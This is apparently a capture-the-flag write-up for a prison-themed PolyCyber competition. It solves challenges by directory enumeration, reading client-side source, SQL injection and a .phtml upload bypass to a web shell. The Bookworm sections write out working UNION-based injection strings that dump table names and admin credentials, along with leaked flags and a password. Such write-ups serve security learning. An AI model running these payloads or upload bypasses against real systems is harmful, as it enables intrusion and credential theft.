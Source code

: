 ## Paul's Dirty Secret 1

### Description

Paul, the prison's events team manager, has created a website to showcase what he does. You know that this website is used to exchange information between team members, try to find these... And maybe more !

148.113.142.201:897

### Solution

Using gobuster we found the following directory, `/notes`:

http://148.113.142.201:897/notes/

http://148.113.142.201:897/notes/fichier1.txt -> 

This is not a Lorem Ipsum !

http://148.113.142.201:897/notes/fichier2.txt -> 

Banana bread recipe : 
- Banana
- Bread
- Mix it all together

http://148.113.142.201:897/notes/fichier3.txt ->

Ideas for prison events :
- Karaoke
- Bully every prisoner


When using OPTIONS method we get the following:

```
HTTP/1.1 200 OK
date: Sat, 06 Apr 2024 23:21:59 GMT
server: Apache/2.4.57 (Debian)
allow: HEAD,GET,POST,OPTIONS
content-length: 0
content-type: httpd/unix-directory
connection: close
```

I couldnt find out how they write the notes...

## Cafetaria Meals 1

### Description

You're browsing the prison cafeteria website and notice something strange hidden in it. What is it?

148.113.142.201:504

### Solution

Looking at website it seems built with javascript angular and webpack.

![](flag.png)

The flag was in the source code in the client side at `Webpack/src/app/accueil/accueil.component.ts`.

![](website.png)

Flag: `polycyber{you_should_4lw4y5_t4k3_a_look_at_the_5ourc3_51abff21c}`

## Bookworm 1

### Description

In the silent library of the prison, a forgotten computer looms. While books hold stories, it's on this screen that the key to your escape might be hidden.

Note: The use of tools that employ brute force is strongly discouraged and will result in a ban. Some automated tools may resort to brute force to achieve their goal. No such tool is necessary for this challenge.

148.113.142.201:29070

### Solution

We have an sql injection in:

```
GET /search.php?query='+OR+1%3d1+%3b+--+ HTTP/1.1
Host: 148.113.142.201:29070
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://148.113.142.201:29070/
DNT: 1
Connection: close
Cookie: language=en
Upgrade-Insecure-Requests: 1

``` 

We have a page `upload.php` in the comments and when browse to that location we are met with a login screen.
The login screen seems to be an authentication to a admin page.
Lets try to leverage the sqli to gain credentials and login.

Since we are probably in a books table we need to make a union to a probably table `users`.

We start by using the UNION injection with NULL to know the number of clomuns that the book table has.
After some time, we get two: `'+UNION+select+NULL,NULL+--+` because its when we put the correct amount of columns that we get results back.

Lets enumerate and get the admin credentials:

Get tables:
`'+UNION+select+TABLE_NAME,TABLE_SCHEMA+from+INFORMATION_SCHEMA.TABLES+--+`
Books - library
Admin - library

Get Admin table columns:
`'+UNION+select+TABLE_NAME,COLUMN_NAME+from+INFORMATION_SCHEMA.COLUMNS+where+table_name%3d'Admin'+--+ `
Admin - id
Admin - password
Admin - username

And we get the flag when trying to read the admin password:
`'+UNION+select+username,password+from+Admin+--+`
Librarian - R3ad-2-3scap3!
Flag - polycyber{SQL_Br3ak0ut}


## Bookworm 2

### Description

You have access to the book upload page. Bypass the protections and take control of the computer to obtain crucial information. Your escape depends on what you discover. Good luck.

148.113.142.201:29070/upload.php

### Solution

So we have the credentials:  Librarian - R3ad-2-3scap3!
This next challenge seems like a upload challenge

So after testing the upload functionality we get the path where the file is stored which is `/uploads/<file>`.
It changes the file name however it seems like it keeps the extension.
Lets try to upload a web shell.

If we try to upload a php web shell without modifying the filename and content-type, we get it.
Trying to modify the filename to `file.php` we get: `Error: Uploading .php files is not allowed. `
Trying the well known alternative `.phtml` we are sucessful. Browsing to the location we get RCE and the flag is in: `/var/www/flag.txt`

Flag: `polycyber{UPL04D_BYP4SS_SUCC3SS}`